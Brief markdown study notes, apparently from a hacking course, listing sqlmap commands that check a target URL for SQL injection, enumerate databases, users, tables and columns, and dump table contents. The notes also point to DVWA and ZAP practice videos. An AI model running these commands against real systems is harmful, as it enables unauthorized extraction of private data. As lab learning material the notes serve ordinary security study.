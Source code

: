 `select * from <tablename>`

### sqlmap tool

it will check if the target is sql injectable

`sqlmap -u <target url/>`

use help command to see how u can get info from sql map

`sqlmap --help`

get current databases

`sqlmap -u <target url/> --dbs`

get current user

`sqlmap -u <target url/> --current-user`

get current db

`sqlmap -u <target url/> --current-db`

get tables for a db

`sqlmap -u <target url/> --tables -D <dbname>`

columns of the table

`sqlmap -u <target url/> --columns -T <tablename> -D <dbname>`

get data of that table

`sqlmap -u <target url/> -T <tablename> -D <dbname> --dump`

### dvwa tool to practice hacking

watch videoes

### discover vulnerabilities using zap tool

watch 20 th folder videoes

